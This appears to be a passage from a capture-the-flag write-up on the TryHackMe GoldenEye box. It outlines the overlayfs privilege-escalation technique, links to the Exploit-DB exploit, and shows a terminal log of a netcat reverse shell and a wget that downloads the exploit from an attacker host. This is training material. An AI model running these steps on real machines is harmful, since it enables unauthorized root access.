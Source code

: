2. Whats the kernel version?

``

3. This machine is vulnerable to the overlayfs exploit. The exploitation is technically very simple:

* Create new user and mount namespace using clone with CLONE_NEWUSER|CLONE_NEWNS flags.
* Mount an overlayfs using /bin as lower filesystem, some temporary directories as upper and work directory.
* Overlayfs mount would only be visible within user namespace, so let namespace process change CWD to overlayfs, thus making the overlayfs also visible outside the namespace via the proc filesystem.
* Make su on overlayfs world writable without changing the owner
* Let process outside user namespace write arbitrary content to the file applying a slightly modified variant of the SetgidDirectoryPrivilegeEscalation exploit.
* Execute the modified su binary

You can download the exploit from here: https://www.exploit-db.com/exploits/37292

```
kali@kali:~/CTFs/tryhackme/GoldenEye$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.74.5] 35639
bash: cannot set terminal process group (1071): Inappropriate ioctl for device
bash: no job control in this shell
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ whoami
whoami
www-data
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ uname -a
uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ wget 10.8.106.222/37292.c
wget 10.8.106.222/37292.c
--2020-10-09 08:19:07--  http://10.8.106.222/37292.c
Connecting to 10.8.106.222:80... failed: Connection refused.
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ ^[[A
wget 10.8.106.222/37292.c
--2020-10-09 08:19:27--  http://10.8.106.222/37292.c
Connecting to 10.8.106.222:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5119 (5.0K) [text/plain]
Saving to: '37292.c'

     0K ....                                                  100% 5.48M=0.001s

2020-10-09 08:19:27 (5.48 MB/s) - '37292.c' saved [5119/5119]

<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ wget 10.8.106.222/37292.c
wget 10.8.106.222/37292.c
--2020-10-09 08:19:40--  http://10.8.106.222/37292.c
Connecting to 10.8.106.222:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5119 (5.0K) [text/plain]
Saving to: '37292.c.1'

     0K ....                                                  100% 7.50M=0.001s

2020-10-09 08:19:40 (7.50 MB/s) - '37292.c.1' saved [5119/5119]

<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ ls   
ls
37292.c
37292.c.1
changelog.txt
classes
```